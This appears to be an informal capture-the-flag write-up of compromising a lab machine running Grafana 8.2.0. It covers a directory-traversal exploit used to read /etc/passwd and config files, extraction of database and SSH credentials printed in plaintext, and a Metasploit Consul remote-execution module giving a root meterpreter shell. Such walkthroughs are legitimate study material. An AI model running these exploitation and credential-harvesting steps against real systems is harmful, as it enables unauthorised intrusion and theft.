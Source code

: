 Navigating the website, I believe it has been made with the Hugo framework --> by looking at the /images/ directory, as it shows the gohugo default image.

navigating to port 3000 in the browser, there is a login page 'Grafana'. I am assuming that with the use of MySQL, there might be a SQLi or something.


Metrics:
go_info{version="go1.17"} 1

grafana_build_info{branch="HEAD",edition="oss",goversion="go1.17",revision="d7f71e9eae",version="8.2.0"} 1

grafana_plugin_build_info{plugin_id="input",plugin_type="datasource",signature_status="valid",version="1.0.0"} 1


Using searchsploit and grafana, /usr/share/exploitdb/exploits/multiple/webapps/50581.py comes up. Trying to run it simply with python and -H http://10.10.11.183:3000 allows me to read files. PoC is reading /etc/passwd. Another quick search on where to find grafana config files, I enter /etc/grafana/grafana.ini and get some output. 
Reading it shows the root user is grafana and the DB is sqlite3

Credentials = admin:messageInABottle685427, secret_key = SW2YcwTIb9zp00hoPsMm
. Logging In with these on the website, we get access to the admin interface. 
[this](https://securitynews.sonicwall.com/xmlpost/grafana-plugins-directory-traversal-vulnerability/) showed a path directory traversal vulnerability within the plugins part of the grafana panel.
It is the same payload as used in the read_file python script. Using curl, I decided to get the grafana.db file which is located in /var/log/grafana/grafana.db. Connecting to mysql is the next step, I am sure of it, and I cannot do so unless I have a database file or the configurations on my localhost --> ref the error I get when trying to connect to mysql DB with `mysql -u grafana -p  -h 10.10.11.183`


Looking through all the tables in the database, from the data_source one I found credentials to the mysql database: _grafana:dontStandSoCloseToMe63221!_
And by connecting to the database and looking through the tables, I got the developer ssh credentials: _developer:anEnglishManInNewYork027468_. In order to fix the mywl connection I also modified the /etc/mysql/mariadb.conf.d/50-server.cnf file.



PRIVESC:
Initially I tried to upload linpeas.sh and run it, but this did not work. I therefre proceeded to check the standards: suid, getcap, processes, crontab, sudo -l and so on. For the suid permissions there was one I had not seen before: /usr/lib/eject/dmcrypt-get-device, so I looked it up and essentially all the headings of the articles had privesc in them, so I thought I might be on the right track.
It appears I have execution access to the binary too..
I think for the privesc there is the my-app/whackywidget which has a  manage.py script. I believe if I can run this in a python env (as I have execution rights) I can execute commands as 'admin'. Just need to figure out how..
Oh and there is also another db running on 33060.
ooo I think the DB running on 33060 is somehow related to the whackywidget app, and by figuring out how to configure and run it we might either get access to that DB or need to access it in order to get root.

Looking in he settings.py file, there are a couple things which have been insecurely configured: the secret_token is visible: _django-insecure--lqw3fdyxw(28h#0(w8_te*wm*6ppl@g!ttcpo^m-ig!qtqy!l_ and Debug mode is on, which there is a note of not making the case as it makes the app vulnerable.
In the /opt/my-app directory there is also a .git directory --> these are always interesting:) So I am going o take a look around there if there is something uesful in history commits or similar.
So the 'hashes' found in the .git directory are git commit refs. There might be a way I can use these to see what has been previously commited...

^^THE `git diff <hash>` command!!
I activated the token and mysql_password with: `consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD`. Then proceeded to activate the virtual env with `source env/bin/`. Now when I tried to run the _manage.py_ script, it was still not working due to some PYTHONENV not having django available. Looing at the path using `echo /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games`, I can see that the my-app directory is on the beginning of the path --> so I think I just need to install it there?
EXCEPT: django installed is django-admin, which is in /env/bin, so it should be fine?? Now I am confused...
Looking into consule app, there appears to be a metasploit module for RCE: hahwul/consul_rexec_exec.. I'll try it that way, but was hoping it owuld be possible manually...


The method for privesc:
```zsh
ssh developer@10.10.11.183 -L 8500:localhost:8500

```


```msfconsole
set rhosts 127.0.0.1
set lhosts <my_ip>
set ACL_TOKEN bb03b43b-1d81-d62b-24b5-39540ee469b5
exploit
```

It took me a few tries and a whiles to realise I had to include the `ACL_TOKEN`, but once I figured out that was needed to it worked and I got a root meterpreter shell:)